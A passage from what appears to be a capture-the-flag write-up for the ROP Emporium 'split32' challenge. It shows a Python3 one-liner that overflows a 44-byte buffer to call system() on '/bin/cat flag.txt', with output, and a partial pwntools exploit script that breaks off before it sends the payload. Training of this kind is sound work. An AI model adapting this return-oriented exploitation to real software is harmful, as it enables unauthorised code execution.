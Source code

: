 #### Python3 One-Line Exploit
The Python3 exploit is a bit different to the Python2 exploit. Python3 prints byte strings differently to Python2 which doesn't work when piping the output into a binary. To get around this I used the `sys.stdout.buffer.write()` function from the `sys` module.

`python3 -c 'import sys;sys.stdout.buffer.write(b"A"*44 + b"\x1a\x86\x04\x08" + b"\x30\xa0\x04\x08")'`
```
$ python3 -c 'import sys;sys.stdout.buffer.write(b"A"*44 + b"\x1a\x86\x04\x08" + b"\x30\xa0\x04\x08")' | ./split32

split by ROP Emporium
x86

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
```

#### The Pwntools Exploit
```
#!/usr/bin/env python3

from pwn import *

# Set the binary context to the local binary
context.binary = binary = ELF("./split32", checksec=False)
context.log_level = "CRITICAL"

# Get the LIBC used for the binary
libc = binary.libc

gdb_script = """
continue
"""

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(args.HOST or exit("[!] Provide a Remote IP."), int(args.PORT or exit("[!] Provide a Remote Port.")))

    elif args.GDB:
        return gdb.debug([binary.path] + argv, gdbscript=gdb_script, *a, **kw)

    else:
        return process([binary.path] + argv, *a, **kw)


# Exploitation code
# Define the offset as 44
offset = 44
# Build the 44-byte buffer
buffer = b"A"*offset

# Pack the address of the system() call into a 32-bit Little-Endian address
system = p32(0x0804861a)
# Pack the address of the "/bin/cat flag.txt" string into a 32-bit Little-Endian address
cat_flag = p32(0x0804a030)

# Build the payload, buffer + packed address of system() + packed address of the "/bin/cat flag.txt" string
payload = buffer + system + cat_flag

# Start connection (LOCAL, REMOTE, or GDB)
```